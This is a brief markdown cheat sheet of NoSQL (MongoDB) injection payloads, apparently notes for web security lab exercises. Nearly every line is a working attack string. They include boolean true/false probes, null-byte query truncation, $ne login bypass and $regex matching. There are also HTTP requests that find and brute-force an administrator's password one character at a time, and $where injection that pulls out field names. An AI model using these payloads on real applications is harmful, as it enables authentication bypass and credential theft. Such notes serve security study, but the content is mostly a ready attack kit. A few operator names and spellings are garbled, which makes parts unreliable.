[#](#) No SQL

Detecting:

> Make sure to `CTRL+U` if used in repeater...
> Does NOT always work, e.g.: for logins...

* True: `Gifts' && 0 && 'x`
* False: `Gifts' && 1 && 'x`
* Always true: `Gifts'||1||'x`

* Null character (MongoDB): `Gifts'\u0000` -> `this.category == 'Gigts'\u0000' && this.released == 1`
    * This will terminate the query after the Null, and prevent the aditional restriction.

Operators:

* `$Where`
* `$Ne`
* `$Ni`
* `$Regex`

Examples: 

* `?username=wiener` -> `username[$ne]=invalid`
* `{"username": "wiener"}` -> `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* `{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
* Identify password length: `administrator' && this.password.length < 30 || 'a'=='b`
    * `GET /user/lookup?user=administrator'+%26%26+this.password.length+<+30+||+'a'%3d%3d'b HTTP/2`
* Bruteforce Password: (Cluster Bomb)`GET /user/lookup?user=administrator' && this.password[§0§]+=='§a§' || 'a'=='b`
    * `GET /user/lookup?user=administrator'+%26%26+this.password[0]+=='n'+||+'a'%3d%3d'b`
* Test if operator injection: 
    * False: `{"username":"wiener","password":"peter", "$where":"0"}`
    * True: `{"username":"wiener","password":"peter", "$where":"1"}`
    * If you able to inject operator, you can extract field names: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`

